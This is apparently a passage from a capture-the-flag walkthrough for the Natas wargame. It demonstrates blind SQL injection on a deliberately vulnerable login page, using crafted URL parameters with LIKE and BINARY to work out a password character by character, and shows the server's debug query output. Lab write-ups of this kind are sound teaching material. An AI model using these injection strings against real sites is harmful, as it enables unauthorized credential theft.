 ### Python 3 scripting

In a real-world situation, I'd use sqlmap. However, this is not a real-world situation. It's a learning environment. As such, priority should be given to learning and not "winning." That said, this section will not attempt to teach Python programming.

Before creating the script, we'll need to get a few ideas under our belt first. Login to the site if you haven't already and append the following to the URL:

```
?username=natas16%22+and+password=+%22a&debug
```

Using the debug option, we can see the query that was passed, along with the 

```
Executing query: SELECT * from users where username="natas16" and password= "a"
This user doesn't exist.
```

This tells us that the password for the user natas16 is not "a." This should not come as much of a surprise. A better question would be to ask if the password contains at least one "a." To do this we'll need to use the LIKE operator. The wildcard character is the percent symbol. Let's modify the previous query.

```
?username=natas16%22+and+password+LIKE+%22%a%&debug
```

Here's the output:
```
Executing query: SELECT * from users where username="natas16" and password LIKE "%a%"
This user exists.
```

This is certainly more helpful! Here we can see the password contains an "a." Let's see if it also contains an "A."

```
?username=natas16%22+and+password+LIKE+%22%A%&debug
```

Here's the output:
```
Executing query: SELECT * from users where username="natas16" and password LIKE "%A%"
This user exists.
```

While the output tells us that password contains an "A", I can tell you with certainty that it does not. The reason we're being told that there's an "A" is because the query is case insensitive. To make the query case sensitive, we need to add BINARY to the query. Let's modify our last search.

```
?username=natas16%22+and+password+LIKE+BINARY+%22%A%&debug
```

Now we see the "A" is not part of the password
```
Executing query: SELECT * from users where username="natas16" and password LIKE BINARY "%A%"
This user doesn't exist.
```
